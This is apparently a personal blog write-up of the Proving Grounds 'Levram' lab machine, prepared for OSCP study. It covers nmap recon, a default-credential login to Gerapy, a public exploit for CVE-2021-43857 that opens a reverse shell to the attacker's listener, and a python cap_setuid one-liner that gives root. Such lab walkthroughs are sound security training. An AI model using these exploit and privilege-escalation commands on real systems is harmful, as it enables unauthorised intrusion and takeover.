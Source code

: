 ```yaml
---
date: '2024-09-04'
before : '2024-09-01'
after : '2024-09-06'
title: 'OSCP Prep: Proving Grounds : Levram'
categories: ['C-SEC', 'proving_grounds', 'full-machine', 'ENG']
summary: 'Solving GLPI machine from Proving Grounds'
thumbnail: '../contentImages/levram/levram-1.png'
---
```

## 0. Machine Info

Levram is an easy machine from Proving Grounds, and this one is pretty straight forward.

## 1. Recon
- nmap

```
┌──(hosan㉿kali)-[~]
└─$ sudo nmap 192.168.211.24 -T4 -p-       
[sudo] password for hosan: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-05 13:13 EDT
Nmap scan report for 192.168.211.24
Host is up (0.029s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  http-alt

Nmap done: 1 IP address (1 host up) scanned in 10.28 seconds
```


- port 22
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
|_  256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.8 (95%), Linux 5.0 - 5.4 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (94%), Linux 3.2 (94%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), HP P2000 G3 NAS device (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   28.77 ms 192.168.45.1
2   28.51 ms 192.168.45.254
3   37.19 ms 192.168.251.1
4   37.45 ms 192.168.211.24

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5.09 seconds
```


- port 8000
```
┌──(hosan㉿kali)-[~]
└─$ sudo nmap 192.168.211.24 -T4 -p8000 -A -sC -sV -Pn
[sudo] password for hosan: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-05 13:21 EDT
Nmap scan report for 192.168.211.24
Host is up (0.029s latency).

PORT     STATE SERVICE  VERSION
8000/tcp open  http-alt WSGIServer/0.2 CPython/3.10.6
|_http-title: Gerapy
|_http-server-header: WSGIServer/0.2 CPython/3.10.6
```

There is nothing special or common cve with versions above or any interesting interactions. Let's start with webapp enumeration.

## 2. Initial Foothold

I tried a basic admin:admin, and I got in (...)

![levram-1](../contentImages/levram/levram-1.png)

Then, the footer revealed that they have Gerapy 0.9.6 running behind the webapp. Since Subdirectory enumeration didn't work well, I started to search CVE for Gerapy


Quick search for CVE:

```
┌──(hosan㉿kali)-[~]
└─$ searchsploit gerapy          
---------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                |  Path
---------------------------------------------------------------------------------------------- ---------------------------------
Gerapy 0.9.7 - Remote Code Execution (RCE) (Authenticated)                                    | python/remote/50640.py
---------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

That's exactly what we need!


For this exploit, we need more than one project. But as we can see from the first image, we have no projects right now, so I simply created a project.

![levram-2](../contentImages/levram/levram-2.png)

Then I executed the script, got my shell.

```
┌──(hosan㉿kali)-[~/pg/levram]
└─$ python3 50640.py -t 192.168.211.24 -p 8000 -L 192.168.45.230 -P 443
  ______     _______     ____   ___ ____  _       _  _  _____  ___ ____ _____ 
 / ___\ \   / / ____|   |___ \ / _ \___ \/ |     | || ||___ / ( _ ) ___|___  |
| |    \ \ / /|  _| _____ __) | | | |__) | |_____| || |_ |_ \ / _ \___ \  / / 
| |___  \ V / | |__|_____/ __/| |_| / __/| |_____|__   _|__) | (_) |__) |/ /  
 \____|  \_/  |_____|   |_____|\___/_____|_|        |_||____/ \___/____//_/   
                                                                              

Exploit for CVE-2021-43857
For: Gerapy < 0.9.8
[*] Resolving URL...
[*] Logging in to application...
[*] Login successful! Proceeding...
{'Authorization': 'Token b58db15bafeac901558a5da07b2b894f1f2b7111'}
[*] Getting the project list
[{"name": "exploit"}]
[{"name": "exploit"}]
[*] Found project: exploit
[*] Getting the ID of the project to build the URL
[*] Found ID of the project:  1
[*] Setting up a netcat listener
listening on [any] 443 ...
[*] Executing reverse shell payload
[*] Watchout for shell! :)
connect to [192.168.45.230] from (UNKNOWN) [192.168.211.24] 55734
bash: cannot set terminal process group (844): Inappropriate ioctl for device
bash: no job control in this shell
app@ubuntu:~/gerapy$ 

```

## 3. PrivEsc to root

I executed linpeash.sh, but there were too many potential risks.


What I tried:

- sudo -l
- kernel exploit
- suid/sgid binary


Nothing worked. But at last, I found that python3 (as binary) has following (linux-) capability!:
```
Files with capabilities (limited to 50):
/snap/core20/1891/usr/bin/ping cap_net_raw=ep
/snap/core20/2318/usr/bin/ping cap_net_raw=ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep
/usr/bin/mtr-packet cap_net_raw=ep
/usr/bin/python3.10 cap_setuid=ep !this one
```

What is capability then?


> Capabilities are useful when you want to restrict your own processes after performing privileged operations (e.g. after setting up chroot and binding to a socket). However, they can be exploited by passing them malicious commands or arguments which are then run as root.

For example, if there is setuid capability bit for a binary allowed, the binary is allowed to change the setuid of it's process if it is being executed, since cap_setuid=ep is enabled for python3.10!


It means, we can use import os; os.setuid(0) by executing python from command shell!

```
app@ubuntu:~/gerapy$ python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
< -c 'import os;os.setuid(0);os.system("/bin/bash")'
whoami
root
cat /root/proof.txt
96809490798d8d9d8779af42f6fb0f24
```

I got root. That's pretty much it.

## 4. Review

Easy enough, fair enough.


It covered all basic stuffs though (with privesc enumeration)

## 5. Source

- Proving Grounds
- Me!